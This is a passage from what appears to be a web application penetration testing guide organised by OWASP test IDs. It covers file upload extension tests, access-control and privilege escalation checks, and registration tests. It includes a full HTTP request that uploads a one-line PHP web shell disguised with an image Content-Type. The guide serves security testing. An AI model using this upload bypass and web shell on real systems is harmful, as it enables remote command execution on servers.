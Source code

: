 ### 2.3 Test File Extensions Handling (OTG-CONFIG-003)

#### File Upload Testing
```bash
# Test various file extensions
.jsp, .jspx, .php, .php3, .php4, .php5, .phtml
.asp, .aspx, .ascx, .ashx, .asmx
.cfm, .cfml, .cfc
.pl, .py, .rb
.exe, .bat, .cmd, .com, .pif, .scr
```

#### MIME Type Bypass Testing
```http
# File upload with manipulated Content-Type
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/jpeg

<?php system($_GET['cmd']); ?>
------WebKitFormBoundary--
```

## 3. Identity Management Testing

### 3.1 Test Role Definitions (OTG-IDENT-001)

#### Role-Based Access Control Testing
```http
# Test different user roles
GET /admin/users HTTP/1.1
Cookie: sessionid=user_session

GET /admin/users HTTP/1.1  
Cookie: sessionid=admin_session

GET /admin/users HTTP/1.1
Cookie: sessionid=manager_session
```

#### Privilege Escalation Testing
- Test horizontal privilege escalation (same role, different user)
- Test vertical privilege escalation (lower to higher privilege)
- Test role inheritance and delegation mechanisms

### 3.2 Test User Registration Process (OTG-IDENT-002)

#### Registration Bypass Testing
```http
# Duplicate registration testing
POST /register HTTP/1.1
Content-Type: application/json

{
    "username": "admin",
    "email": "test@attacker.com", 
    "password": "password123"
}
```
